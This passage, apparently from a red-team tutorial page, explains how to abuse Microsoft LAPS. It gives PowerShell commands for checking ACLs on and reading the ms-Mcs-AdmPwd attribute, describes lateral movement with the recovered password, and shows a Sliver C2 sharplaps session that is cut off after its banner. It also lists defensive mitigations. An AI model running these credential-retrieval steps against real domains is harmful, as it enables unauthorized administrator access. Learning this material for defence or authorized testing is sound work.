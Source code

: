    - **Using PowerShell**: Determine who has read permissions on the `ms-Mcs-AdmPwd` attribute:
     ```powershell
     Get-ACL "AD:\CN=Computers,DC=domain,DC=com" | Format-List
     ```

   - **Review Permissions**: Look for any misconfigured permissions that allow unauthorized users or groups to read the `ms-Mcs-AdmPwd` attribute.

#### 3. **Retrieve the LAPS Password**

   - **Using PowerShell**: If you have sufficient permissions, you can retrieve the LAPS password using the following command:
     ```powershell
     Get-ADComputer -Identity "ComputerName" -Property "ms-Mcs-AdmPwd"
     ```
     This will display the current local Administrator password for the specified computer.

   - **Using AD Tools**: The password can also be retrieved using Active Directory Users and Computers (ADUC) if you have the necessary permissions to view the attribute.

#### 4. **Escalate Privileges Using the LAPS Password**

   - Once the local Administrator password is retrieved, an attacker can use it to gain administrative access to the target machine.
   - This access can be leveraged for further lateral movement within the network, privilege escalation, or persistence.

### Preventing LAPS Exploitation

To prevent exploitation of LAPS:

1. **Restrict Permissions**:
   - Ensure that only authorized users and groups (e.g., Domain Admins) have read access to the `ms-Mcs-AdmPwd` attribute.
   - Regularly audit these permissions to ensure they are correctly configured.

2. **Monitor Access**:
   - Implement monitoring and alerting for any unusual access to the `ms-Mcs-AdmPwd` attribute.
   - Use logging and SIEM solutions to track access attempts.

3. **Review Group Policies**:
   - Ensure that Group Policies related to LAPS are correctly configured and applied.
   - Avoid giving unnecessary groups the ability to view LAPS-managed passwords.

4. **Use Encryption and Secure Access**:
   - Consider using additional encryption and secure access mechanisms to protect LAPS-managed passwords.

By properly configuring and monitoring LAPS, you can significantly reduce the risk of it being exploited. However, if an attacker does gain unauthorized access to the `ms-Mcs-AdmPwd` attribute, they can retrieve the local Administrator password and potentially compromise the security of your environment.

### Sliver Laps example

```bash
[server] sliver (ALERT_HEATER) > sharplaps /host:192.168.228.5 /user:admin /pass:lab

[*] sharplaps output:

   _____ __                     __    ___    ____  _____
  / ___// /_  ____ __________  / /   /   |  / __ \/ ___/
  \__ \/ __ \/ __ `/ ___/ __ \/ /   / /| | / /_/ /\__ \ 
 ___/ / / / / /_/ / /  / /_/ / /___/ ___ |/ ____/___/ / 
/____/_/ /_/\__,_/_/  / .___/_____/_/  |_/_/    /____/  
                     /_/                             

[+] Using the following credentials
```